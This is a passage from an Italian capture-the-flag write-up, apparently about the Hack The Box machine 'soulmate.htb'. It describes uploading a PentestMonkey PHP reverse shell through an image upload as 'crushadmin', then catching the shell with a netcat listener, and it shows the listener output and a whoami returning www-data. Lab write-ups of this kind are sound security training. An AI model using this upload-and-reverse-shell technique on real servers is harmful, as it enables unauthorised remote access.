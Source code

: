 Si effettua il caricamento di un'immagine in `soulmate.htb` e si visualizza nel file system del server l'immagine appena caricata.

![GIF](./img/gif.png)

IDEA: caricare come `crushadmin` nel server un file **.php** da sfruttare per ottenere una **web shell**.

![crushadmin reverse shell upload](./img/revshell-upload.png)

> **PHP PentestMonkey** reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

Si avvia un listener e si visita l'URL `http://soulmate.htb/revshell.php`.

```bash

$ nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.131.113] 39598
Linux soulmate 5.15.0-153-generic #163-Ubuntu SMP Thu Aug 7 16:37:18 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 10:06:46 up  1:08,  0 users,  load average: 0.02, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$

``` 
